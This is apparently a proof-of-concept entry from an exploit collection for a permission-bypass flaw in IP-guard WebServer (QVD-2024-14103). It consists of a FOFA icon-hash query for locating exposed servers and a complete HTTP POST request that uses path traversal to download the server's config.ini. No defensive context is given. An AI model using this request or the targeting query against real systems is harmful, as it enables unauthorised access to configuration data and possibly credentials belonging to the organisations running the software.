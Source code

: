 ## IP-guard WebServer存在权限绕过漏洞(QVD-2024-14103)

## fofa
```
icon_hash="2030860561"
```
![image](https://github.com/user-attachments/assets/f47815da-b9c4-4240-8adb-ec7dc6cae700)


## poc
```
POST /ipg/appr/MApplyList/downloadFile_client/getdatarecord HTTP/1.1
Host: your-ip
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/122.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: application/x-www-form-urlencoded

path=..%2Fconfig.ini&filename=1&action=download&hidGuid=1v%0D%0A
```
